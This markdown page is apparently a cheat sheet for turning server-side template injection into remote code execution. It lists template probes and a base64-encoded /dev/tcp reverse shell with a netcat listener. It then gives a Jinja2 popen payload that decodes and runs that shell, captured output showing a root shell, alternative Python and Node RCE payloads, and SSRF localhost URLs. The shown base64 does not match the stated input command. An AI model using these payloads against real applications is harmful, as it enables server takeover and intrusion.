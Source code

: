 #### [1] Try this, everywhere the app is taking input from the user and reflecting the output.

```python
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```
#### [2] if the app reflects the output as `49`.Then there might be a RCE possible.
#### [3] now encode the payload in basse64.

`input`
```shell
echo 'bash -i >& /dev/tcp/LHOST/4444 0>&1' | base64
```
`output`
```
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTA4LzQ0NDQgMD4mMQo=
```
#### [4] now start a listener
```
nc -lvvp 4444
```

#### [5] resend the request with this command
```python
{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTA4LzQ0NDQgMD4mMQo=${IFS}|base64${IFS}-d|bash').read()}}
```

#### [6] if everything works currectly. You should get a reverse shell.
```shell
nc -vv -lnp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.130.
Ncat: Connection from 10.10.11.130:54434.
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

#### [+] or we can try those above commands also, if the previous one doesn't works.

```python
{{ "foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("id").read()}}
```
```python
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('id')\")()}}
```
--------------------------------------------------------------------------------
# SSRF common payloads
```http
http://127.0.0.1:80
```
```http
http://127.0.0.1:443
```